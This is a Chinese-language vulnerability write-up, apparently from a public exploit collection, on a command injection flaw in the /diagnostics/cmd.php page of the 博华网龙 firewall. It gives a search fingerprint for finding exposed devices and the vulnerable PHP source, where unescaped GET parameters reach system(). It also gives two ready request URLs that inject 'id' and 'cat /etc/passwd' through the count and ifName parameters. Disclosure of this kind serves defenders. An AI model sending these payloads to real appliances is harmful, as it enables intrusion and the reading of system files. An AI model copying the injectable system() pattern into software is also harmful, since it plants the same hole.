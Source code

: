 # 博华网龙防火墙 cmd.php 远程命令执行漏洞

# 博华网龙防火墙 cmd.php 远程命令执行漏洞

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](/images/202202162249275.png)

存在漏洞的文件为 **/diagnostics/cmd.php**

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](/images/202202162249153.png)

